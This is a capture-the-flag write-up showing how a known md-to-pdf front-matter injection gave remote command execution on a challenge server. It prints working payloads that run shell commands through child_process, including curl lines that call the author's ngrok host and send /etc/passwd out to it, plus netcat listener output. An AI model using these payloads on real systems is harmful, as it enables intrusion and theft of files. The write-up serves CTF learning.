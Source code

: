 After attempts i noticed also that the sorc code has `const { mdToPdf } = require('md-to-pdf');`

Guess What !!!
Yeah very new way !!
This package is also vulnerable xDDD

You can find that <a href="https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880">here</a>
From the article i found that the payload i will use is
```js
---js
((require("child_process")).execSync("id > /tmp/RCE.txt"))
---RCE
```
But the response isn't rendered so we will try another way.
The way i think here is to execute a command that sends any request to an ip i have and if i got the response then the RCE works.

On my local linux machine i started listening on port 4444 (the port at which i will wait for the request), but note that this port is local so the target can reach me.
As a solution i started ngrok using `ngrok tcp 4444` which works as a forwared in this situation.
This command means that the public ip supplied from ngrok will forward the requests it gets to my localhost on port 4444.

I got `IP:0.tcp.eu.ngrok.io port:17552` from ngrok, so any request to `0.tcp.eu.ngrok.io:17552` will be forward to `localhost:4444`.

when i try to use the payload
```js
---js
((require("child_process")).execSync('curl http://0.tcp.eu.ngrok.io:17552'));
---RCE
```

i get
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59622
GET / HTTP/1.1
Host: e874-156-160-149-56.ngrok-free.app
User-Agent: curl/7.88.1
Accept: */*
X-Forwarded-For: 46.101.193.189
X-Forwarded-Host: e874-156-160-149-56.ngrok-free.app
X-Forwarded-Proto: https
Accept-Encoding: gzip
```

So there's RCE and works well, I tried to get a reverse shell but i couldn't during the ctf, so i tried LFI.

After attempts i used this payload

```js
---js
((require("child_process")).execSync('curl -X POST --data-binary "@/etc/passwd" http://0.tcp.eu.ngrok.io:17552'));
---RCE
```
and i got the content of /etc/passwd
```bash
┌──(youssif㉿youssif)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 35736
POST / HTTP/1.1
Host: 0.tcp.eu.ngrok.io:17552
User-Agent: curl/7.88.1
```